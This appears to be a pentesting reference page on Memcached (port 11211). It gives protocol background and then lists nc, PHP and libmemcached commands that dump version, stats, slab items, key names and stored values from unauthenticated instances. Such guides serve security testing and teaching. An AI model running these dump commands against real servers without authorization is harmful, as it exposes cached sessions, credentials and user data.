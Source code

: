 # 11211 - Pentesting Memcache

## Protocol Information

From [wikipedia](https://en.wikipedia.org/wiki/Memcached):

> **Memcached** (pronunciation: mem-cashed, mem-cash-dee) is a general-purpose distributed [memory caching](https://en.wikipedia.org/wiki/Memory_caching) system. It is often used to speed up dynamic database-driven websites by caching data and objects in RAM to reduce the number of times an external data source (such as a database or API) must be read.

Although Memcached supports SASL, most instances are **exposed without authentication**.

**Default port:** 11211

```
PORT      STATE SERVICE
11211/tcp open  unknown
```

## Enumeration

### Manual

To exfiltrate all the information saved inside a memcache instance you need to:

1. Find **slabs** with **active items**
2. Get the **key names** of the slabs detected before
3. Ex-filtrate the **saved data** by **getting the key names**

Remember that this service is just a **cache**, so **data may be appearing and disappearing**.

```bash
echo "version" | nc -vn -w 1 <IP> 11211      #Get version
echo "stats" | nc -vn -w 1 <IP> 11211        #Get status
echo "stats slabs" | nc -vn -w 1 <IP> 11211  #Get slabs
echo "stats items" | nc -vn -w 1 <IP> 11211  #Get items of slabs with info
echo "stats cachedump <number> 0" | nc -vn -w 1 <IP> 11211  #Get key names (the 0 is for unlimited output size)
echo "get <item_name>" | nc -vn -w 1 <IP> 11211  #Get saved info

#This php will just dump the keys, you need to use "get <item_name> later"
sudo apt-get install php-memcached
php -r '$c = new Memcached(); $c->addServer("localhost", 11211); var_dump( $c->getAllKeys() );'
```

### Manual2

```bash
sudo apt install libmemcached-tools
memcstat --servers=127.0.0.1 #Get stats
memcdump --servers=127.0.0.1 #Get all items
memccat  --servers=127.0.0.1 <item1> <item2> <item3> #Get info inside the item(s)
```
